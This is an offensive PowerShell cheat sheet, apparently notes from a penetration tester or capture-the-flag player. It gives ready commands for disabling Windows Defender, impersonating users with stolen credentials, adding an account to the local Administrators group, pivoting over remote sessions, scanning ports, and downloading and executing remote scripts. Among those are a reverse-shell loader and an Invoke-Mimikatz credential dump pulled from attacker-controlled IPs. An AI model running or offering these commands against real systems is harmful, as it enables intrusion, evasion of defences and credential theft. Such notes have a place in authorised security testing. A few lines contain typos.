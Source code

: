 # Powershell

## Contrained Language Mode

```powershell
$ExecutionContext.SessionState.LanguageMode

Invoke-Command -Session $ss -ScriptBlock  {$ExecitonContext,SessionState,LanguageMode}
```

## Applocker check

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty rulecollections
```

## AV disable

```powershell
Set-MpPreference -DisableRealTimeMonitoring $true ; Set-MpPreference -DisableIOAVProtection $true : Set-MpPreference -DisableRealTimeMonitoring $true ; Set-MpPreference -DisableIOAVProtection $true
```

## Impersonate 

```powershell
# PlainText
$Password = ConvertTo-SecureString "<pass>" -AsPlainText -Force; $Credential = New-Object System.Management.Automation.PSCredential("<domain\user>", $Password);
Invoke-Command -ComputerName <target> -ScriptBlock { hostname; whoami } -Credential $Credential

# SecureString
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000028bf2'
$passwd = $securepasswd | ConvertTo-SecureString
$passwd System.Security.SecureString
$creds = New-Object System.Management.Automation.PSCredential ("<domain>\administrator", $passwd)
Invoke-Command -ScriptBlock {net localgroup Administrators <domain>\<user> /add} -ComputerName <target> -Credential $creds
```

## Pivot

```powershell
$secure = New-PSSession -ComputerName <target>
Enter-PSSession -Session $secure
```

## Download & Exec

```powershell
iex (New-Object Net.Webclient).DownloadString("<remote_ps1>")

# Reverse powershell x64
c:\windows\sysnative\windowspowershell\v1.0\powershell.exe IEX(new-object net.webclient).downloadstring('http://10.10.14.12/Invoke-PowerShellTcp.ps1')


$ss = New-PSSession -ComputerName <target>
Enter-PSSession -Session $ss
Invoke-Command -Session $ss -ScriptBlock { iwr -uri http://192.168.56.2/Invoke-Mimikatz.ps1 -OutFile .\Invoke-Mimikatz.ps1 ; . .\Invoke-Mimikatz.ps1 ; Invoke-Mimikatz }
```

---

## Download file

```powershell
iwr -uri <file_url> -Outfile <outfile>
```

---

## Import PS1 module

```powershell
import-module <full_path_ps1_file>
. ./<ps1_file>
```
> Full path is mandatory for Import-Module !


## Ping Scans

```powershell
1..255| foreach {Test-Connection -ComputerName "192.168.1.$_"}
```

---

## Port Scan

```powershell
1..1024 | % { echo ((new-object Net.Sockets.TcpClient).Connect("<target>",$_)) "$_ is open" } 2>out-null
```

---
